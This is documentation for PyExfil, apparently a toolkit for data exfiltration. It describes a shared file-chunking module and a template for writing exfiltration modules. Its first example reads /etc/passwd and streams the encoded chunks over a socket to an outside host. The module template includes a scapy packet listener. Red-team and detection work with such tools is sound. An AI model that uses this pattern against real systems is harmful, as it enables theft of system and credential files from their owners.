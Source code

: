 # Documentation | PyExfil

## Shared Abilities
Please notice that although we have tried to keep this a collection of relatively separated stand alone modules so that converting them to static binaries for various operating systems would be as easy as possible, some things we have decided to turn into modules that would be shared across the board while attempting to keep is as depency free as possible. Such a component for now is `pyexfil/includes/prepare`. This module contains the methods of converting files (compressing, encrypting, encoding and splitting) into chunks ready to be sent or decoded.

You can use it in the following way:

```python
import socket
from pyexfil.includes.prepare import PrepFile, RebuildFile, DecodePacket

proc = PrepFile('/etc/passwd', kind='binary') # will yield a dictionary

# Send the data over
sock = socket.socket()
sock.connect(('google.com', 443))
for i in proc['Packets']:
    sock.send(i)
sock.close()

# Rebuilding the data:
conjoint = []
for packet in proc['Packets']:
    b = DecodePacket(packet)
    conjoint.append(b)

# Verify and rebuild the file:
print(RebuildFile(conjoint))
```

## Calling Convention
In theory we wish each module to have a convention call to make it easier to work with. Some methods make it easier while some make it more difficult. For that, here is a template on how we wish for it to be. Please bear in mind some modules will not fall into place. Use your best judgment.

1. Preparing file/data for exfiltration should be done as in [this section]("#shared-abilities").
2. Place the package folder under the right location. For example; short communication (C&C) under `Comm`, exfiltration over network communication under `network` etc.
3. Create an `__init__.py` under that folder.
4. For broadcasting purposes use the function name `Send` that will wrap everything up.
5. For receiving purposes use `Broker` function to contain the function. If possible, set it up in a threading mode as to return back.
6. * if possible add a call back function for when data arrives.

Here's an `__ini__.py` example file:

```python
from scapy.all import *
from pyexfil.includes.prepare import PrepFile, RebuildFile, DecodePacket

def _send_packet(host, port, data, counter):
  open('/dev/null', 'w').write("%s%s" % (data, counter))

def _testCallBack(pkt):
  print("Me got a pkt! [%s]" % len(pkt))

def Send(fname, password, host, port):
  proc = PrepFile(fname, kind='binary', enc_key=password, max_size=1024)
  i = 0
  for p in proc['Packets']:
    _send_packet(host, port, p, i)
    i += 1
  return True

class Broker():
  def __init__(self, key, retFunc=_testCallBack):
    self.key = key
    self.callBack = retFunc

  def _parse(self, pkt):
    if pkt is 'A Good Boy':
      self.callBack(pkt)
    else:
      """ These are not the packets you're looking for """
      pass

  def Listen(self):
    while True:
      sniff(ptn=self._parse, filter='stam', store=0, count=0)
```

There are also a few "ready made functions" that we found useful on several scenarios that can be found in the `general.py`, `image_manipulation.py` and `encryption_wrappers.py`. Have a look at them before reimplementing some of these.

## Exceptions

`PyExfil` holds ability to raise custom exceptions. These exceptions appear in `pyexfil/includes/exceptions.py`
